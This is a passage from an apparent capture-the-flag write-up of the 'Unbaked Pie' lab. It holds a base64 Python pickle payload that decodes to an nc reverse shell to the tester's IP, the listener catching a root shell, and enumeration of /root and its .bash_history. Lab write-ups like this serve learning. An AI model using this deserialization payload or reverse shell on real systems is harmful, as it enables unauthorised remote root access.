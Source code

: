 ```python
python3 exploit.py

b'gASVaQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjE5ybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAxMC44LjgzLjE1NiA0NDQ0ID4vdG1wL2aUhZRSlC4='
```
{: .nolineno}
{: .nolineno}

![Untitled](Unbaked%20Pie/Untitled%202.png)

In response to that I got the shell →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Unbaked_Pie]
└─$ nc -lvnp 4444     
listening on [any] 4444 ...
connect to [10.8.83.156] from (UNKNOWN) [10.10.89.190] 58742
/bin/sh: 0: can not access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@8b39a559b296:/home# ls -al
ls -al
total 28
drwxr-xr-x 1 root root 4096 Oct  3  2020 .
drwxr-xr-x 1 root root 4096 Oct  3  2020 ..
drwxrwxr-x 8 root root 4096 Oct  3  2020 .git
drwxrwxr-x 2 root root 4096 Oct  3  2020 .vscode
-rwxrwxr-x 1 root root   95 Oct  3  2020 requirements.sh
-rwxrwxr-x 1 root root   46 Oct  3  2020 run.sh
drwxrwxr-x 1 root root 4096 Oct  3  2020 site
root@8b39a559b296:/home# cd /root
cd /root
root@8b39a559b296:~# ls -al
ls -al
total 36
drwx------ 1 root root 4096 Oct  3  2020 .
drwxr-xr-x 1 root root 4096 Oct  3  2020 ..
-rw------- 1 root root  889 Oct  6  2020 .bash_history
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x 3 root root 4096 Oct  3  2020 .cache
drwxr-xr-x 3 root root 4096 Oct  3  2020 .local
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw------- 1 root root    0 Sep 24  2020 .python_history
drwx------ 2 root root 4096 Oct  3  2020 .ssh
-rw-r--r-- 1 root root  254 Oct  3  2020 .wget-hsts
root@8b39a559b296:~#
root@8b39a559b296:~# cat .bash_history
cat .bash_history
nc
exit
ifconfig
ip addr
ssh 172.17.0.1
ssh 172.17.0.2
exit
ssh ramsey@172.17.0.1
exit
cd /tmp
wget https://raw.githubusercontent.com/moby/moby/master/contrib/check-config.sh
chmod +x check-config.sh
./check-config.sh 
```